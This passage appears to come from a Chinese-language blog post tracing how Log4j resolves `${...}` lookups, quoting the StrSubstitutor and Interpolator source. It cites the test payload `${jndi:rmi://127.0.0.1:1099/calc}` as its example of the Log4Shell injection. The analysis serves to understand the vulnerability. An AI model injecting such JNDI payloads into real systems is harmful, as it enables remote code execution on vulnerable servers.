 
调用 org.apache.logging.log4j.core.lookup.StrSubstitutor#resolveVariable，将对应参数解析出结果。

```java
protected String resolveVariable(final LogEvent event, final String variableName, final StringBuilder buf,
                                    final int startPos, final int endPos) {
    final StrLookup resolver = getVariableResolver();
    if (resolver == null) {
        return null;
    }
    return resolver.lookup(event, variableName);
}
```

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214175321.png)

和官方文档上是能够对应上的，即 log 里只解析前缀为 `date`、`jndi` 等的命令，本文的测试用例使用的是 `${jndi:rmi://127.0.0.1:1099/calc}`。

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214175427.png?x-oss-process=style/yano)

解析出参数的结果， org.apache.logging.log4j.core.lookup.Interpolator#lookup

```java
@Override
public String lookup(final LogEvent event, String var) {
    if (var == null) {
        return null;
    }

    final int prefixPos = var.indexOf(PREFIX_SEPARATOR);
    if (prefixPos >= 0) {
        final String prefix = var.substring(0, prefixPos).toLowerCase(Locale.US);
        final String name = var.substring(prefixPos + 1);
        final StrLookup lookup = strLookupMap.get(prefix);
        if (lookup instanceof ConfigurationAware) {
            ((ConfigurationAware) lookup).setConfiguration(configuration);
        }
        String value = null;
        if (lookup != null) {
            value = event == null ? lookup.lookup(name) : lookup.lookup(event, name);
        }

        if (value != null) {
            return value;
        }
        var = var.substring(prefixPos + 1);
    }
    if (defaultLookup != null) {
        return event == null ? defaultLookup.lookup(var) : defaultLookup.lookup(event, var);
    }
    return null;
}
```
